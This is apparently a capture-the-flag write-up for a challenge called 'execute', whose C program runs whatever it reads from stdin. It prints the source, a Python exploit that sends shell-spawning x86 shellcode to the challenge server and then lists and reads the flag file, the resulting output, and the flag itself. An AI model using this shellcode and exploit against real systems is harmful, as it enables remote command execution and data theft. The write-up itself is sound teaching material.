 execute
=======

Flag: **well_that_executed_quickly**

![execute](images/execute.png "execute challenge introduction")

The challenge flavortext says "This [program](execute.c "execute.c")
(x86 Linux) will execute everything you give him, can you find the
flag? `nc ctf.stratum0.net 3333`".

The linked source code shows a short program that reads data from
`stdin` into a buffer and then jumps to and executes the contents of
that buffer:

    #include <stdio.h>

    int main(int argc, char *argv[]) {
      char buf[0x1000];
      fgets(buf, sizeof(buf), stdin);
      ((void (*)(void)) buf)();
    }

A flag is stored somewhere on the filesystem of the machine hosting
this networked program, so we'd like to send the program a payload
that will spawn a shell, then use the shell to locate and retrieve the
contents of that flag file.

Using any old shellcode will do:

    import socket

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('ctf.stratum0.net', 3333))

    shellcode = "\xb8\x32\x2f\x73\x68\xc1\xe8\x08\x50\x68\x2f\x62\x69\x6e\x89\xe3\x31\xd2\x52\x53\x89\xe1\x89\xd0\x04\x0b\xcd\x80\n"
    s.send(shellcode)
    print "sent shellcode"
    s.send("ls\n")
    print s.recv(4096)
    s.send("cat flag.txt\n")
    print s.recv(4096)

Running our exploit, we get:

    $ python exploit_networked.py
    sent shellcode
    execute # Output of ls
    flag.txt

    flag{well_that_executed_quickly} # Output of cat.

The flag is thus `well_that_executed_quickly`.
